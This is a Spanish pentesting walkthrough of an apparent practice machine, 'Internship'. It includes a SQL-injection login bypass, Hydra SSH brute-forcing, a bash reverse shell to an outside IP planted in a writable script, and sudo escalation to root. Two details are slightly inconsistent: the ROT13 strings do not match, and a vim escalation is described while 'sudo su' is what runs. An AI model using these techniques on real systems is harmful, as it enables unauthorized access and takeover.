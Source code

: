# 🧠 **Informe de Pentesting – Máquina: Internship**

### 💡 **Dificultad:** Fácil

![Despliegue](Imágenes/2025-05-19_20-20.png)

---

## 📝 **Descripción de la máquina**

*Internship* es una máquina de dificultad baja diseñada para simular un entorno realista de pasantes que han cometido errores comunes de seguridad, incluyendo malas configuraciones, contraseñas débiles, y almacenamiento inseguro de archivos. Ideal para practicar reconocimiento, inyección SQL, fuerza bruta y escalada de privilegios.

---

## 🎯 **Objetivo**

El objetivo es obtener acceso inicial al sistema, escalar privilegios hasta obtener acceso como `root`, y capturar la flag de cada usuario comprometido.

---

## ⚙️ **Despliegue de la máquina**

Se descomprime el archivo y se lanza el contenedor Docker con el script proporcionado:

```bash
unzip internship.zip
sudo bash auto_deploy.sh backend.tar
```

![Despliegue](Imágenes/Capturas.png)

---

## 📡 **Comprobación de conectividad**

Se verifica conectividad hacia la IP del contenedor con un `ping`:

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 **Escaneo de Puertos**

Realizamos un escaneo completo para detectar todos los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

**Puertos detectados:**

* `22/tcp`: SSH
* `80/tcp`: HTTP

![Puertos](Imágenes/Capturas_2.png)

Después, identificamos servicios y versiones:

```bash
nmap -sCV -p22,80 172.17.0.3 -oN target.txt
```

![Servicios](Imágenes/Capturas_3.png)

---

## 🌐 **Reconocimiento Web**

Accedemos a `http://172.17.0.3/` y encontramos una página de bienvenida:

![Pagina](Imágenes/Capturas_4.png)

En el código fuente descubrimos el dominio `gatekeeperhr.com`. Para acceder correctamente, lo añadimos al archivo de hosts:

```bash
sudo nano /etc/hosts
```

Agregamos:

```
172.17.0.3 gatekeeperhr.com
```
![Dominio](Imágenes/Capturas_7.png)


Esto nos da acceso a una pantalla de inicio de sesión:

![Registro](Imágenes/Capturas_8.png)

---

## 🧨 **Inyección SQL**

Probamos una inyección simple:

```
Usuario: ' OR 1=1-- -
Contraseña: (cualquier valor)
```

Esta inyección manipula la consulta SQL para que siempre devuelva verdadero, permitiendo el acceso sin credenciales válidas.

![Registro](Imágenes/Capturas_9.png)
![Registro](Imágenes/Capturas_10.png)

Desde la interfaz obtenemos posibles nombres de usuarios.

---

## 🔎 **Fuzzing y Análisis Web**

Fuzzing sobre el dominio revela múltiples rutas interesantes:

```
/about.html
/contact.html
/default
/spam
/includes
/lab
```

![Fuzzing](Imágenes/Capturas_11.png)

En `/spam`, se muestra una pantalla negra, pero el código fuente revela un mensaje cifrado con ROT13:

```
Yn pbagenfrñn qr hab qr ybf cnfnagrf rf 'checy3'
```

Descifrado con:

```bash
echo "Yn pbagenfrna qr ab qr ybs cnfnatrf rf 'checy3'" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```

Resultado:

```
La contraseña de uno de los pasantes es 'purpl3'
```

---

## 🛠️ **Ataque Fuerza Bruta (Hydra)**

Creamos un archivo `users.txt` con los nombres de los pasantes y realizamos fuerza bruta con Hydra:

```bash
hydra -L users.txt -p purpl3 ssh://172.17.0.3 -t 4
```

Se descubren credenciales válidas:

```
[22][ssh] host: 172.17.0.3   login: pedro   password: purpl3
```

![Hydra](Imágenes/Capturas_12.png)

---

## 🧑‍💻 **Acceso SSH y Primer Flag**

Accedemos vía SSH:

```bash
ssh pedro@172.17.0.3
```

No tiene permisos `sudo`. Encontramos la flag `fl4g.txt` en su home. En `/opt` hay un script `log_cleaner.sh` editable por nosotros. Lo modificamos para lanzar una reverse shell:

```bash
nano log_cleaner.sh
```

Agregamos:

```bash
bash -c "bash -i >& /dev/tcp/192.168.1.84/443 0>&1"
```

Escuchamos la conexión:

```bash
sudo nc -lvnp 443
```

![payload](Imágenes/Capturas_15.png)

---

## 🕵️‍♂️ **Análisis de Archivos Ocultos**

Desde la cuenta `valentina` encontramos la imagen `profile_picture.jpeg`, la copiamos a `/tmp` y damos permisos globales para su análisis:

```bash
cp ~/profile_picture.jpeg /tmp
chmod 777 profile_picture.jpeg
```

![Imagen](Imágenes/Capturas_13.png)

Desde nuestra máquina, la descargamos con:

```bash
scp pedro@172.17.0.3:/tmp/profile_picture.jpeg .
```

Usamos `steghide` para extraer archivos ocultos:

```bash
steghide extract -sf profile_picture.jpeg
```

Nos pide una contraseña, solo presionamos `Enter`. Se extrae `secret.txt`:

```bash
cat secret.txt
```

Contenido:

```
mag1ck
```

![Contraseña](Imágenes/Capturas_14.png)

---

## 🧗‍♂️ **Escalada de Privilegios**

Nos cambiamos a `valentina` con la contraseña `mag1ck`:

```bash
su valentina
```

Verificamos sus privilegios:

```bash
sudo -l
```

Salida:

```
(ALL : ALL) PASSWD: ALL, NOPASSWD: /usr/bin/vim
```

Esto permite escalar a root usando `vim`. Ejecutamos:

```bash
sudo su
```

¡Acceso root conseguido! 🚩

![rott](Imágenes/Capturas_16.png)

---

